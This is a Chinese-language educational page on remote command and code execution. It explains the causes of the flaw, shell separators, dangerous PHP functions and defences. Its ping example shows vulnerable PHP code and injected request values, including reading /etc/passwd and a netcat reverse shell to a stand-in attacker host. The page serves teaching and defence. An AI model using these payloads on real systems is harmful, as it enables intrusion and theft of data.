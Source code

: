 ## 概述 (Overview)

远程命令/代码执行 (RCE) 漏洞允许攻击者在目标服务器上执行任意的操作系统命令或应用程序代码。这是最高危的漏洞类型之一，成功利用通常意味着攻击者可以完全控制服务器。

*   **远程命令执行**: 指的是应用程序接收用户输入，并将其（未经过滤或过滤不当）拼接到操作系统命令中执行。
*   **远程代码执行**: 指的是应用程序接收用户输入，并将其作为应用程序自身的代码（如 PHP、Python、Java 代码）来执行。

尽管底层机制略有不同，两者通常都被称为 RCE，且都能导致相似的严重后果。

## 漏洞原理 (Vulnerability Principles)

### 远程命令执行 (Remote Command Execution)

*   **成因**: 应用程序需要调用外部操作系统命令来完成特定功能（例如，网络诊断工具中的 `ping` 或 `traceroute`，文件处理，系统管理任务）。如果应用程序将用户可控的输入（如 IP 地址、文件名、搜索词等）直接或不安全地嵌入到将要执行的命令字符串中，攻击者就可以注入额外的命令。
*   **示例场景**: 许多网络设备（路由器、防火墙）的 Web 管理界面、自动化运维平台、需要与操作系统交互的 Web 应用。
*   **核心问题**: 未对用户输入进行严格的验证和无害化处理（如转义特殊字符、使用安全的 API）。

### 远程代码执行 (Remote Code Execution)

*   **成因**: 应用程序使用了能将字符串作为代码执行的函数（如 PHP 中的 `eval()`、`assert()`，Python 中的 `exec()`），并且将用户可控的输入传递给了这些函数。或者，存在反序列化漏洞、模板注入、不安全的文件包含等，允许用户输入影响代码执行流。
*   **示例场景**: 需要动态执行代码或表达式的复杂应用、使用了不安全的反序列化处理、模板引擎配置不当的网站。
*   **核心问题**: 信任并执行了来自不可信来源的数据作为代码。

## 常见触发点 (Common Trigger Points)

*   任何接收用户输入并将其用于系统交互或动态代码生成的地方。
*   Web 管理界面中的系统诊断功能（如 `ping`, `nslookup`）。
*   自动化运维平台、CI/CD 管道中的任务执行接口。
*   文件处理、图像/视频处理等调用外部库或程序的场景。
*   使用了危险函数且参数可控的脚本。
*   存在反序列化漏洞的应用。
*   模板引擎注入。

## 命令注入技巧 (Command Injection Techniques)

### 系统命令拼接符 (System Command Separators/Operators)

攻击者利用操作系统 Shell 的特性，通过注入特定的分隔符或操作符来附加恶意命令。常见符号包括：

*   `|` (管道符): 将前一个命令的标准输出作为后一个命令的标准输入。 (e.g., `command1 | command2`)
*   `&` (后台执行): 同时执行前后两个命令（非阻塞）。 (e.g., `commandA & commandB`)
*   `&&` (逻辑与): 仅当命令 A 成功执行后，才执行命令 B。 (e.g., `commandA && commandB`)
*   `||` (逻辑或): 仅当命令 A 执行失败后，才执行命令 B。 (e.g., `commandA || commandB`)
*   `;` (分号): 顺序执行多个命令，无论前面的命令成功与否。 (e.g., `commandA ; commandB`)
*   `\n` 或 `%0a` (换行符): 在某些上下文中可以分隔命令。
*   `` ` `` (反引号): 命令替换，将反引号内命令的输出作为外部命令的一部分 (e.g., `echo `whoami``)。
*   `$(...)` (命令替换): 功能类似反引号，更推荐使用 (e.g., `echo $(whoami)`).

### 示例: `ping` 命令注入

假设一个 Web 应用允许用户输入 IP 地址进行 `ping` 测试，后端 PHP 代码类似：

```php
<?php
  $ip = $_GET['ip'];
  system("ping -c 3 " . $ip); // 直接拼接用户输入，存在漏洞
?>
````

- **正常请求**: ?ip=192.168.1.1
    
    - 执行命令: ping -c 3 192.168.1.1
        
- **恶意请求**: ?ip=192.168.1.1 ; whoami
    
    - 执行命令: ping -c 3 192.168.1.1 ; whoami
        
    - 结果: 服务器先执行 ping 命令，然后执行 whoami 命令，并将结果返回，泄露运行 Web 服务的用户名。
        
- **其他恶意请求**:
    
    - ?ip=192.168.1.1 & cat /etc/passwd
        
    - ?ip=192.168.1.1 | nc attacker.com 4444 -e /bin/bash (建立反向 Shell)
        

## 危险函数 (Dangerous Functions - PHP Focus)

识别代码中使用的危险函数是发现 RCE 漏洞的关键。

### 直接执行系统命令的函数

这些函数直接调用操作系统命令执行：

- system(): 执行外部程序，并且显示输出。
    
- passthru(): 执行外部程序，并且显示原始输出 (二进制)。
    
- exec(): 执行一个外部程序，不输出结果，但可以通过参数获取最后一行输出和返回状态码。
    
- shell_exec() / ` (反引号): 执行命令并通过 Shell 返回完整的输出。
    
- popen(): 打开一个指向进程的管道。
    
- proc_open(): 执行一个命令，并且打开用来输入/输出的文件指针。
    
- pcntl_exec(): 在当前进程空间执行指定程序 (需要 pcntl 扩展)。
    

### 可执行代码字符串或导致代码执行的函数

这些函数可以执行字符串形式的 PHP 代码，或在特定条件下导致代码执行：

- eval(): 将字符串作为 PHP 代码执行。
    
- assert(): 检查一个断言，如果断言是字符串，则将其作为 PHP 代码执行 (PHP 5/7 行为不同，PHP 7 后默认不执行字符串)。
    
- preg_replace(): 当使用 /e (PREG_REPLACE_EVAL) 修饰符时（PHP < 7.0），会将替换字符串作为 PHP 代码执行。 **极其危险**。
    
- create_function(): 创建一个匿名函数（内部类似 eval），已在 PHP 7.2.0 中废弃，8.0.0 中移除。
    
- call_user_func() / call_user_func_array(): 调用用户自定义函数，如果函数名可控，可能调用危险函数。
    
- unserialize(): 反序列化用户提供的字符串，可能触发 PHP 对象注入 (POI)，进而导致 RCE。
    
- **文件包含函数**: include, include_once, require, require_once 如果包含的文件路径或内容可控（如 LFI/RFI），也能导致代码执行。
    
- **其他**: 某些模板引擎函数、XML 处理函数等，若配置或使用不当，也可能被利用。
    

注意: base64_decode(), gzinflate(), gzuncompress(), gzdecode(), str_rot13() 等函数本身不执行代码，但常被用来 **混淆/编码** 恶意的代码 payload，最终传递给上述可执行代码的函数。

## 防御与修复建议 (Mitigation and Remediation)

1. **输入验证与无害化 (Validation and Sanitization)**:
    
    - **假定所有输入皆不可信**: 对来自用户的任何输入（URL 参数、POST 数据、HTTP 头、Cookie 等）进行严格处理。
        
    - **白名单验证**: 优先使用白名单策略验证输入。只允许已知安全的值通过（例如，IP 地址应符合 IP 格式，数字应为数字）。
        
    - **格式/长度/范围/内容检查**: 不仅验证数据类型，还要验证其格式、长度、允许的范围和具体内容。
        
    - **避免黑名单**: 黑名单容易被绕过，不推荐作为主要防御手段。
        
    - **参数化查询/安全 API**: 如果必须执行命令，尽可能使用提供参数化接口的函数（如 PHP 的 escapeshellcmd() 和 escapeshellarg() 进行转义，但需谨慎使用，优先选择不执行命令的方式），或者使用能将命令和参数分开传递的 API。
        
2. **最小化执行权限**:
    
    - **避免使用执行函数**: 尽可能寻找替代方案，不直接调用系统命令或执行代码字符串。例如，使用语言内置的文件操作函数而非 system('rm file')。
        
    - **权限分离**: Web 应用应以最低权限运行，限制其对系统资源的访问能力。
        
3. **服务器端验证**:
    
    - **关键过滤在后端**: 不可依赖客户端 JavaScript 进行安全检查，所有关键的验证和过滤必须在服务器端执行。
        
4. **输出编码**:
    
    - **检查输出**: 对从数据库或其他来源获取并在页面上显示的数据进行适当的 HTML 编码，防止 XSS。虽然主要针对 XSS，但良好的输出处理是纵深防御的一部分。
        
5. **禁用危险函数**:
    
    - 在 php.ini 中通过 disable_functions 配置项禁用不必要的、高风险的函数（如 system, exec, eval 等）。但这不能完全防止所有 RCE（例如 proc_open 可能仍可用，或存在其他逻辑漏洞）。
        
6. **代码审计与安全测试**:
    
    - 定期进行代码安全审计和渗透测试，主动发现并修复 RCE 漏洞。